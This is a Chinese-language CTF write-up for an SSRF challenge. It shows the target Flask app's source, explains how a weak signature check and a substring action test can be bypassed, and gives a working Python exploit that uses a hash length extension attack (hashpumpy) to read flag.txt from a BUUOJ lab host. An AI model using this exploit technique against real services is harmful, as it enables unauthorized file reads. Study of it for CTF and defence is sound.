

题目直接写明就是SSRF了。那就正面来吧。
主要的源码就是这里了。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
|
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)
class Task:
def __init__(self, action, param, sign, ip):
self.action = action
self.param = param
self.sign = sign
self.sandbox = md5(ip)
if(not os.path.exists(self.sandbox)):
os.mkdir(self.sandbox)
def Exec(self):
result = {}
result['code'] = 500
if (self.checkSign()):
if "scan" in self.action:
tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
resp = scan(self.param)
if (resp == "Connection Timeout"):
result['data'] = resp
else:
print resp
tmpfile.write(resp)
tmpfile.close()
result['code'] = 200
if "read" in self.action:
f = open("./%s/result.txt" % self.sandbox, 'r')
result['code'] = 200
result['data'] = f.read()
if result['code'] == 500:
result['data'] = "Action Error"
else:
result['code'] = 500
result['msg'] = "Sign Error"
return result
def checkSign(self):
if (getSign(self.action, self.param) == self.sign):
return True
else:
return False
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
param = urllib.unquote(request.args.get("param", ""))
action = "scan"
return getSign(action, param)
@app.route('/De1ta',methods=['GET','POST'])
def challenge():
action = urllib.unquote(request.cookies.get("action"))
param = urllib.unquote(request.args.get("param", ""))
sign = urllib.unquote(request.cookies.get("sign"))
ip = request.remote_addr
if(waf(param)):
return "No Hacker!!!!"
task = Task(action, param, sign, ip)
return json.dumps(task.Exec())
@app.route('/')
def index():
return open("code.txt","r").read()
def scan(param):
socket.setdefaulttimeout(1)
try:
return urllib.urlopen(param).read()[:50]
except:
return "Connection Timeout"
def getSign(action, param):
return hashlib.md5(secert_key + param + action).hexdigest()
def md5(content):
return hashlib.md5(content).hexdigest()
def waf(param):
check=param.strip().lower()
if check.startswith("gopher") or check.startswith("file"):
return True
else:
return False
if __name__ == '__main__':
app.debug = False
app.run(host='0.0.0.0')
|
分析
使用的是flask框架。设置了三条路由信息:
1
2
3
| / #用于显示源码
/De1ta #根据传入的action去做执行相应的操作
/geneSign #生成Sign,但是这里的Sing只是"scan"的
|
/De1ta会从cookies中获取action和Sign进行验证操作。然后调用Task去执行相应的动作。
程序不复杂，题目的要求应当是通过scan读取param指定的文件。
然后再通过read把它读取出来。
难在在于如果突破sign的验证。
那么怎么突破呢，看关键代码：
1
2
3
| "scan" in self.action:
if "read" in self.action:
|
这里并滑有用===和==,而是用的 in 。也就是说只要action中包含scan和read就会操作相应的动作。
那么正常情况我们分两步就可以了：
第一步:通过geneSign生成”scan”验证，让程序正常的通过scan读取flag到result.txt。
第二步：通过geneSign生成”readscan”验证，让程序读出result.txt。里的flag就行了。
解题
写个脚本直接攻击好了。

代码好烂。。就不贴出来了。
hashpump 哈希长度扩展攻击
事后看到还有这种攻击方式,这种方法只能在linux下使用。在这里记录一下。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
|
import hashpumpy
import requests
import urllib.parse
txt1 = 'flag.txt'
r = requests.get('http://aa9f72f5-9a50-49ae-974f-1af4ce9f9ec2.node3.buuoj.cn/geneSign', params={'param': txt1})
sign = r.text
hash_sign = hashpumpy.hashpump(sign, txt1 + 'scan', 'read', 16)
print(hash_sign)
r = requests.get('http://aa9f72f5-9a50-49ae-974f-1af4ce9f9ec2.node3.buuoj.cn/De1ta', params={'param': txt1}, cookies={
'sign': hash_sign[0],
'action': urllib.parse.quote(hash_sign[1][len(txt1):])
})
print(r.text)
|